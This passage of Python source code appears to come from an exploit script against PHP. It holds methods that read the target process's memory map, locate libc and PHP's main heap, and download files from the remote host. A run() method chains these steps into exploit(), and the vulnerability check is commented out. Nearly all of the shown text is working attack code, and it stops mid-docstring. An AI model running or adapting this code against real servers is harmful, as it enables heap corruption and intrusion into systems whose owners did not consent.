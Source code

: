 ```python

        self.info["heap"] = self.heap or self.find_main_heap(regions)
        print(f'HEAP address: {hex(self.info["heap"])}')

        # Libc

        libc = self._get_region(regions, "libc-", "libc.so")

        #self.download_file(libc.path, LIBC_FILE)

        self.info["libc"] = ELF(LIBC_FILE, checksec=False)
        print(f'LIBC address: {hex(libc.start)}')
        self.info["libc"].address = libc.start

    def _get_region(self, regions: list[Region], *names: str) -> Region:
        """Returns the first region whose name matches one of the given names."""
        for region in regions:
            if any(name in region.path for name in names):
                break
        else:
            failure("Unable to locate region")

        return region

    def download_file(self, remote_path: str, local_path: str) -> None:
        """Downloads `remote_path` to `local_path`"""
        data = self.remote.data_decode(self.get_file(remote_path))
        Path(local_path).write(data)

    def find_main_heap(self, regions: list[Region]) -> Region:
        # Any anonymous RW region with a size superior to the base heap size is a
        # candidate. The heap is at the bottom of the region.
        heaps = [
            region.stop - HEAP_SIZE + 0x40
            for region in reversed(regions)
            if region.permissions == "rw-p"
            and region.size >= HEAP_SIZE
            and region.stop & (HEAP_SIZE-1) == 0
            and region.path in ("", "[anon:zend_alloc]")
        ]

        if not heaps:
            failure("Unable to find PHP's main heap in memory")

        first = heaps[0]

        if len(heaps) > 1:
            heaps = ", ".join(map(hex, heaps))
            msg_info(f"Potential heaps: [i]{heaps}[/] (using last one)")
        else:
            msg_info(f"Using [i]{hex(first)}[/] as heap")

        return first

    def run(self) -> None:
        #self.check_vulnerable()
        self.get_symbols_and_addresses()
        self.exploit()

    def build_exploit_path(self) -> str:
        """On each step of the exploit, a filter will process each chunk one after the
        other. Processing generally involves making some kind of operation either
        on the chunk or in a destination chunk of the same size. Each operation is
```